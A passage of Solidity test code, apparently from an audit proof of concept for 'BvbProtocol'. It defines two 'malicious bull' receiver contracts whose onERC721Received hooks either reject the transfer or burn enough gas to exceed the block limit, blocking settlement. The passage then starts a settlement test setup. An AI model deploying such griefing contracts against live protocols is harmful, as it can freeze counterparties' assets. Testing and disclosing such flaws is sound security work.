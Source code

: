 ```solidity
    ) external virtual returns (bytes4) {
        if (shouldBlockTransfer) {
            // Do not accept a transfer from the BvbProtocol
            return bytes4(0);
        }
        return BvbMaliciousBull1.onERC721Received.selector;
    }
    
    function setShouldBlockTransfer(bool shouldBlock) public {
        shouldBlockTransfer = shouldBlock;
    }
}

//BvbMaliciousBull2 contract
contract BvbMaliciousBull2 {

    address public immutable bvb;

    bool public shouldBlockTransfer;

    uint blockTxn;

    constructor(address _bvb) {
        bvb = _bvb;
        shouldBlockTransfer = true;
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external virtual returns (bytes4) {
        if (shouldBlockTransfer) {
            //use a lot of gas so that txn reverts
            for(uint i=0; i < 5000 ; i++) {  //this is enough to make sure the 30 million gas limit is breached
                blockTxn = i%2;  //storage writes
            } 
        }
        return BvbMaliciousBull2.onERC721Received.selector;
    }
    
    function setShouldBlockTransfer(bool shouldBlock) public {
        shouldBlockTransfer = shouldBlock;
    }
}

//testing contract
contract TestSettleContract is Base {
    event SettledContract(bytes32 orderHash, uint tokenId, BvbProtocol.Order order);
    event WithdrawnToken(bytes32 orderHash, uint tokenId, address recipient);

    uint internal tokenIdBull = 1234;
    uint internal tokenIdBear = 5678;
    BvbMaliciousBull1 internal maliciousBull1;
    BvbMaliciousBull2 internal maliciousBull2;

    function setUp() public {
        bvb.setAllowedAsset(address(weth), true);
        bvb.setAllowedCollection(address(doodles), true);

        deal(address(weth), bull, 0xffffffff);
```